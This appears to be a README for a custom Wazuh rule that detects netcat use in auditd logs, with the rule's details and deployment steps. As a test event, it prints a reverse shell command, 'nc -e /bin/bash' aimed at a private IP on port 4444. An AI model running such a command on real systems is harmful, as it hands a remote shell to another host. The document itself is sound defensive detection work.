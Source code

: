 # Wazuh Custom Detection Rules Description

## Rule: Suspicious Command Detection - Netcat Usage

### Overview

This custom rule is designed to detect suspicious execution of the `netcat` (`nc`) command, which attackers often use for reverse shells or file transfers. The rule monitors auditd logs for commands containing `nc`.

### Rule Details

- Rule ID: 100101  
- Severity Level: 10 (High)  
- Detection Frequency: Once per hour (3600 seconds timeframe)  
- Log Source: auditd logs (`/var/log/audit/audit.log`)  
- Rule Group: auditd, suspicious_commands  
- MITRE ATT&CK Technique: T1059 - Command and Scripting Interpreter  

### Deployment Instructions

1. Copy `custom-rules.xml` to the Wazuh manager’s rules directory:

```bash
sudo cp custom-rules.xml /var/ossec/etc/rules/custom-rules.xml
```
```bash
sudo systemctl restart wazuh-manager
```
Generate test events by running suspicious commands such as:
```bash
nc -e /bin/bash 192.168.1.100 4444
```
Verify alerts in the Wazuh dashboard under Security Events → Rules → search for Rule ID 100101.

This detection improves your SOC's ability to identify attacker lateral movement and data exfiltration techniques using netcat.
